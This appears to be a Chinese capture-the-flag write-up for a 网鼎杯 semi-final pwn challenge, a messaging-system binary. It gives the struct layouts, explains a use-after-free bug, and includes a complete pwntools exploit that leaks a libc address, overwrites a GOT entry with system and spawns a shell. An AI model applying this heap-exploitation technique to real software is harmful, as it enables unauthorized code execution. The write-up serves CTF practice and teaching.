 title: 网鼎杯半决赛pwn1
date: 1970-1-1
categories:
- PWN
---

# 一个短信系统

- 定义了两个结构体,分别如下,一个是用户信息的结构体,一个是信息结构体
  
```
00000000
00000000 message         struc ; (sizeof=0x18, align=0x8, mappedto_6)
00000000 title           dq ?                    ; offset
00000008 content         dq ?
00000010 next            dq ?
00000018 message         ends
00000018
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 pwn             struc ; (sizeof=0x128, align=0x8, mappedto_7)
00000000 malloc_name_ptr dq ?
00000008 age             dq ?
00000010 description     db 256 dup(?)
00000110 messagenode     dq ?                    ; offset
00000118 friend_ptr      dq ?
00000120 inuse           dq ?
00000128 pwn             ends
00000128
```

- 程序逻辑有一些复杂,但是有几个关键的地方值得注意一下
- 人物信息结构体中有许多指针,而且排布相对稳定
- 程序只有两处地方调用了free函数,并且未置空指针,这就导致了UAF的存在
- 还有strdup函数,第一次见,作用不是很清楚,去查了一下才知道它的作用和malloc后scanf是一样的

- 程序中有大量的链表指针操作,显得非常复杂,但是不用太过于纠结,在我尝试了一下执行free后,人物信息结构体被free掉了,这就导致了有0x130的空间可以被利用
- 期间我尝试了利用strdup来进行堆块错位的操作,但是并没有成功,因为p64()函数自动补的0影响了strdup的过程,而唯一比较容易的可控的地方是nameptr,只要覆盖了name指针内容,show后再进行updata,就可以leak程序基址修改程序的got表
- 这里我free了两块大堆块,导致了我有0x260的空间可以使用,然后我就可以利用刚才的strdup,来进行指针的覆盖
  
```python
from pwn import *

r = process("./pwn")
atoi_libc = 0x36E80 #offset
sys_libc = 0x45390

def register(namesize,name):
    r.sendlineafter("Your choice:","2")
    r.sendlineafter("Input your name size:",str(namesize))
    r.sendafter("Input your name:",name)
    r.sendlineafter("Input your age:","18")
    r.sendlineafter("Input your description:","1"*0x100)

def login(name):
    r.sendlineafter("Your choice:","1")
    r.sendafter("Please input your user name:",name)

def show():
    r.sendlineafter("Your choice:","1")

def edit(name,age):
    r.sendlineafter("Your choice:","2")
    r.sendafter("Input your name:",name)
    r.sendlineafter("Input your age:","18")
    r.sendlineafter("Input your description:","1"*0x100)

def AddDeleFriend(module,name):
    r.sendlineafter("Your choice:","3")
    r.sendafter("Input the friend's name:",name)
    r.sendlineafter("So..Do u want to add or delete this friend?(a/d)",module)

def message(name,content,title):
    r.sendlineafter("Your choice:","4")
    r.sendafter("Which user do you want to send a msg to:",name)
    r.sendlineafter("Input your message title:",title)
    r.sendlineafter("Input your content:",content)
    
def logout():
    r.sendlineafter("Your choice:","6")


def exp():
    register(0x80,"111111")
    register(0x80,"222222")

    login("111111")
    AddDeleFriend("a","111111")
    AddDeleFriend("d","111111")
    logout()
    login("222222")
    AddDeleFriend("a","222222")
    AddDeleFriend("d","222222")
    payload = '\x30'*16*15
    payload += p64(0x602060)
    message("222222",payload,"title")
    show()

    r.recvuntil("Username:")
    atoi = u64(r.recv(6) +'\x00'*2)
    print "atoi :%x"%atoi
    system=atoi-atoi_libc + sys_libc
    edit(p64(system),18)
    r.sendline("/bin/sh")
    r.interactive()
    
if __name__ == "__main__":
    exp()
```